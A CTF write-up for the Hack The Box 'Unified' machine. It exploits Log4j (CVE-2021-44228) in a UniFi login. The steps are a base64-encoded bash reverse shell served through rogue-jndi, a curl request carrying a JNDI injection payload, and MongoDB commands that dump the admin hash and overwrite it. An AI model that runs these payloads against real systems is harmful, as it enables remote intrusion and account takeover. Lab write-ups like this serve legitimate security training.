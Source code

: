 ```yaml
---

title: Unified
published: true
category: CTF
system: web
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: 
tags: Web,Databases,Injection,MongoDB,Java,,Default Credentials,Code Injection
---
```


After the initial Nmap scan we have 6 ports open

```
PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack
6789/tcp open  ibm-db2-admin syn-ack
8080/tcp open  http-proxy    syn-ack
8443/tcp open  https-alt     syn-ack
8843/tcp open  unknown       syn-ack
8880/tcp open  cddbp-alt     syn-ack
```

we also find a unifi login 6.4.54 https://unified.htb:8443/manage/account/login?redirect=%2Fmanage

I have exploited this version of unifi once before it had the Log4j CVE-2021-44228 vulnerability.

Following <a href="https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi">sprocket security's</a> guide

Starting by installing maven and compiling the rogue-jndi, which is a LDAP server for JNDI injection attacks.

Once the Jar is compiled we  need to make a command to deliver the reverse shell. we craft this and base64 encode it.

- `echo 'bash -c bash -i >&/dev/tcp/10.10.16.193/6985 0>&1' | base64`

then insert into our rogue-JNDI command

- `java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTkzLzY5ODUgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.16.193"`

Then to get a reverse shell we can use this cURL command

- `curl -i -s -k -X POST -H $'Host: 10.129.207.100:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.193:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.207.100:8443/manage/account/login'`

for whatever reason my curl request isnt working but capturing in burp and sending the payload through there gets us a reverse shell on 6985.

There is no python available on this machine to upgrade our shell but we can use `script /dev/null -c bash` to get the same effect.

Once we are inside the exploiters found that the MongoDB instance storing all of the application information is listening on localhost without authentication. That mean we can read from and make changed to the local MongoDB instance. we can extract password hashes, reset admin password, add a shadow admin. 

# Replacing admin password

Dump password hashes from local db. This command will dump a JSON array of users, privileges and password hashes.

- `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

```
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
```

create a new sha-512 pass `mkpasswd -m sha-512 password`

- `mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$12ZN9Uh2iuQRjoTM$jmc2jIzCTMPU.kFp7driwLcqqOh6rffa1zysWCai2WKy79JjMvpU/DmfRagkHeUZdlpmee6hP/wo.5.LialJw0"}})'`

we can then login and grab the root ssh password and get anything we need from the machine.